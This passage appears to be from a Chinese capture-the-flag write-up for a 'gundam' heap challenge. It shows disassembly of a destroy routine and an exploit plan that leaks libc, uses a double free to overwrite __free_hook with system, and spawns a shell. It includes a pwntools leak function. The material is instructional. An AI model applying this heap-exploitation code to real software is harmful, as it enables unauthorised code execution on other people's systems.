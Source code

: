 ```
|    ||:|   ; JMP XREF from 0x00000e7a (sub.Done_e22)
|    ``---> 0x00000ec3      add dword [local_ch], 1                     ; i = i + 1
|      :|   ; JMP XREF from 0x00000e40 (sub.Done_e22)
|      :`-> 0x00000ec7      cmp dword [local_ch], 8                     ; 最多有 9 个 gundam
|      `==< 0x00000ecb      jbe 0xe45                                   ; 循环继续
|           0x00000ed1      lea rdi, str.Done                          ; 0x131c ; "Done!"
|           0x00000ed8      call sym.imp.puts                          ; int puts(const char *s)
|           0x00000edd      nop
|           0x00000ede      mov rax, qword [local_8h]
|           0x00000ee2      xor rax, qword fs:[0x28]
|       ,=< 0x00000eeb      je 0xef2
|       |   0x00000eed      call sym.imp.__stack_chk_fail              ; void __stack_chk_fail(void)
|       |   ; JMP XREF from 0x00000eeb (sub.Done_e22)
|       `-> 0x00000ef2      leave
\           0x00000ef3      ret
```
该函数会找出所有 factory[i] 不为 0，且 factory[i]->flag 为 0 的 gundam，然后将该 gundam 结构体释放掉，factory[i] 置为 0，最后 gundam_num 每次减 1。

经过这个过程，销毁 gundam 留下的问题基本解决了，除了 name 指针依然存在。


## Exploit
所以利用过程如下：
1. 利用被放入 unsorted bin 的 chunk 泄漏 libc 基址，可以计算出 `__free_hook` 和 `system` 的地址。
2. 利用 double free，将 `__free_hook` 修改为 `system`。
3. 当调用 `free` 的时候就会调用 `system`，获得 shell。

#### leak
```python
def leak():
    global __free_hook_addr
    global system_addr

    for i in range(9):
        build('A'*7)
    for i in range(7):
        destroy(i)      # tcache bin
    destroy(7)          # unsorted bin

    blow_up()
    for i in range(8):
        build('A'*7)

    visit()
    leak =  u64(io.recvuntil("Type[7]", drop=True)[-6:].ljust(8, '\x00'))
    libc_base = leak - 0x3dac78     # 0x3dac78 = libc_base - leak
    __free_hook_addr = libc_base + libc.symbols['__free_hook']
    system_addr = libc_base + libc.symbols['system']

    log.info("libc base: 0x%x" % libc_base)
    log.info("__free_hook address: 0x%x" % __free_hook_addr)
    log.info("system address: 0x%x" % system_addr)
```
